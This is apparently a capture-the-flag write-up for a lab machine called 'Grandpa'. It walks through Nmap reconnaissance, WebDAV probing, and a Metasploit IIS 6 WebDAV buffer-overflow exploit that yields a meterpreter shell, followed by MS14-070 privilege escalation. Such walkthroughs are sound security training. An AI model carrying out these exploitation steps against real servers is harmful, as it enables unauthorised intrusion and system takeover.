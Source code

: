 # Grandpa

## Nmap scan

```sh
sudo nmap -A -T5 -p- 10.10.10.14
```

results:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-12 01:19 EDT
Nmap scan report for 10.10.10.14
Host is up (0.20s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Sun, 12 Apr 2020 05:24:43 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP SP2 or Windows Server 2003 SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   199.82 ms 10.10.14.1
2   199.97 ms 10.10.10.14

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 232.57 seconds
```

From this, we see that there is a webDAV server running on port 80. Let's see if there are any exploits for this. While we are looking for exploits on WebDAV, let's also run `gobuster` on this server

## Gobuster

```sh
gobuster dir -u 10.10.10.14 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
## WebDAV

### Metasploit

```sh
msfconsole
use auxiliary/scanner/http/webdav_scanner
set RHOSTS 10.10.10.14
run

[+] 10.10.10.14 (Microsoft-IIS/6.0) has WEBDAV ENABLED
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

From the looks of it, the server does indeed have webDAV enabled. And we also know a key information, that it's running `IIS-6`.

Let's test the DAV server out with `davtest`

### Davtest

```sh
davtest --url 10.10.10.14
```

And seems like we get denied all PUT requests on the DAV server for remote code execution.

### Metasploit WebDAV exploit

Looking around for the error message on the webpage, we see that there's a windows IIS 6 webdav server running. Looking in rapid7 for an exploit, it results us with a buffer overflow exploit that existed back in 2018.

```sh
msfconsole
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set rhosts 10.10.10.14
run
# meterpreter shell is spawned
```

Let's migrate to another process since this meterpreter shell is very unstable

```sh
ps
migrate 2496
```

### Priv esc

```sh
sysinfo # inside meterpreter
```

Now copy and past the sysinfo file into a file called `sysinfo.txt` on own computer.
Now use `windows-exploit-suggester.py`

```sh
windows-exploit-suggester.py -d 2020-04-10-mssb.xls -i systeminfo.txt
```

We will try MS-14-070

```sh
background # background the meterpreter session
# Using the rapid7 doc for MS14-070 exploit
use exploit/windows/local/ms14_070_tcpip_ioctl
set SESSION <meterpreter session id>
exploit
```

and the flags are in the folder called `documents and settings`